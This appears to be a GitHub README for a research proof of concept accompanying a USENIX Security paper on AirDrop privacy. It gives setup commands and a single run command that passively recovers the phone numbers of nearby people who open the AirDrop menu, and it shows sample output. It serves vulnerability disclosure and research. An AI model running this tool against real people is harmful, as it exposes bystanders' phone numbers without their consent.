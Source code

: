 # PoC: AirDrop Phone Number Leak

This PoCs demonstrates the contact identifier leakage in Apple AirDrop that was described in

* Alexander Heinrich, Matthias Hollick, Thomas Schneider, Milan Stute, and Christian Weinert. **PrivateDrop: Practical Privacy-Preserving Authentication for Apple AirDrop** in _30th USENIX Security Symposium_. [Website](https://privatedrop.github.io). [Preprint](https://www.usenix.org/system/files/sec21fall-heinrich.pdf).

**Note:** We configured the used rainbow table to only work with German mobile phone numbers (prefix: +49). Other tables, e.g., containing all international phone numbers, can be generated with [_RainbowPhones_](https://github.com/contact-discovery/rt_phone_numbers)'s `rtgen`.

## Installation

Run the following instructions on a Mac (tested with macOS 11.3.2).

1. Checkout the repository.

```bash
git clone https://github.com/seemoo-lab/opendrop.git
cd opendrop
git checkout poc-phonenumber-leak
git submodules update --init
```

2. Install Python dependencies.

```bash
pip3 install -r requirements.txt
```

3. Build [_RainbowPhones_](https://github.com/contact-discovery/rt_phone_numbers).

```bash
brew install libomp
cd rt_phone_numbers
make -f Makefile.macOS
cd ..
```

## Usage

Simply run the following and wait for someone in proximity to open the AirDrop sharing menu.

```bash
python3 -m opendrop receive
```

An example output would look like this:

```
Announcing service: host opendrop, address fe80::c8b9:fbff:fee9:d544, port 8771
Starting HTTPS server
Nearby phone number: +49<...>
```
